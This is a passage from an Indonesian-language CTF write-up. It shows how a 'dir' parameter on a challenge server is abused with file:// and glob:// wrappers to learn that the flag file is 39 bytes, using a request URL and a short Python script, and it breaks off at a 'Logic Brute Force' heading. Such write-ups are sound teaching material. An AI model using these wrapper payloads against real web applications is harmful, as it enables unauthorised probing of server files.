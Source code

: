 `requests`
```
http://ctf.iluv.my.id:9999/?dir=file:///tmp/chall/flag*
```
`response`
```
39
```

`Woaaah i get it`, ternyata isi dari file flag berukuran `39 byte`.

Tanda `*` (bintang) dalam pencarian umumnya digunakan sebagai wildcard atau karakter pengganti.

Ketika menggunakan tanda * dalam pencarian, maka karakter tersebut akan dianggap sebagai pengganti dari satu atau lebih karakter apa pun. Sehingga, apapun karakter yang berada di tempat tanda * tersebut, akan dicocokkan dengan semua karakter yang sesuai dalam pencarian.

Contohnya, jika kita ingin mencari semua file yang berakhiran `.txt` dalam sebuah direktori, kita bisa menggunakan perintah `ls *.txt.` Pada contoh ini, tanda `*` berfungsi sebagai wildcard yang digunakan untuk menggantikan karakter apa pun yang ada di awal nama file dan menemukan semua file yang berakhiran `.txt` atau bisa saja kita simulasikan dengan soal yang diberikan `ls flag*` 

```sh
noob@codes:~$ ls flag*
-rw-rw-r-- 1 noob noob 39 Mar  24 11:39 flag.txt

```

Seperti yang sudah dijelaskan pada `Analisis soal` diatas, soal tersebut memaksa kita untuk melakukan brute force karakter pada file flag. untuk kita mencoba mendapatkan flag tersebut dengan `glob://` 

Sebelum kita pastikan dulu dengan menggunakan python untuk mengakses soal yang diberikan


```python
import requests

url = "http://ctf.iluv.my.id:9999/"

noob = requests.get(
	url,
	params={
		"dir":"glob:///tmp/chall/flag*"
	},
)
print(noob.text)
```
```sh
noob@codes:~$ python chall.py
39

```
<a id="codespr1340"></a>

## Logic Brute Force 
